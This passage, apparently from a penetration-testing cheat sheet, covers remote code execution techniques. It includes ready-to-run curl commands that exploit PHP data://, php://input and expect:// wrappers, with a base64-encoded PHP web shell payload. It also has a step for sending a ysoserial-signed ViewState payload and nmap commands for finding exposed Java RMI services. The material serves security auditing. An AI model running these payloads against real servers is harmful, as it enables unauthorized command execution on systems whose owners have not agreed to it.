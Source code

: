 ```
➤ Step 5. Send an HTTP POST request with the generated "_ViewState=<signed-encrypted-payload-generated-with-yoserial>" to a Web page of the target Website to execute arbitrary OS command on the underlying Windows server
```
#### Technique 5. RCE by exploiting PHP wrappers in PHP Web applications
```
➤ Example 1 - Wrapper 'data://'
  -----------------------------
   + Requirement: The attribute allow_url_include must be set. This configuration can be checked in the php.ini file.
   + Examples:
           - curl --user-agent "AUDIT" "https://example.com/?parameter=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami"
           - curl --user-agent "AUDIT" "https://example.com/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=dir"
             NOTE: the payload is "<?php system($_GET['cmd']);?>"

➤ Example 2 - Wrapper php://input
  -------------------------------
   + Requirement: The attribute allow_url_include must be set. This configuration can be checked in the php.ini file.
   + Examples:
           - curl -X POST --data "<?php echo shell_exec('whoami'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
           - curl -X POST --data "<?php echo shell_exec('whoami'); ?>" "https://example.com/index.php?parameter=php://input"

➤ Example 3 - Wrapper php://expect
  --------------------------------
   + Requirement: The expect wrapper doesn't required the allow_url_include configuration, the expect extension is required instead.
   + Examples:
           - curl --user-agent "AUDIT" "https://example.com/index.php?page=expect://whoami"
           - curl --user-agent "AUDIT" "https://example.com/?parameter=expect://whoami"
```
#### Technique 6. RCE by exploiting insecure Java Remote Method Invocation APIs (Java RMI)
<i/>Note: Insecure configuration of the Java RMI APIs used by multiple Java products could lead to unauthenticated remote code execution (RCE). Usefull links: https://book.hacktricks.xyz/network-services-pentesting/1099-pentesting-java-rmi and https://swisskyrepo.github.io/PayloadsAllTheThings/Java%20RMI/</i>
```
➤ Step 1. Identify JAVA RMI APIs that are exposed on the Internet or on the internal network of the company that you are auditing.
	  The default ports of Java RMI APIs are: 1090, 1098, 1099, 1199, 4443-4446, 8999-9010, 9999.

           + Example 1 - Nmap port scan
             --------------------------
	     $ nmap -Pn -sV -p <TARGET_PORTS> <TARGET_IP>
	       <SNIP>
	       PORT      STATE SERVICE      VERSION
	       1090/tcp  open  ssl/java-rmi Java RMI
	       9010/tcp  open  java-rmi     Java RMI
	       <SNIP>

           + Example 2 - Nmap port scan with the NSE scripts: rmi-dumpregistry, rmi-vuln-classloader
             ---------------------------------------------------------------------------------------
	     $ nmap  -Pn -v -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p <TARGET_PORT> <TARGET_IP>
	       1089/tcp open  java-rmi Java RMI
```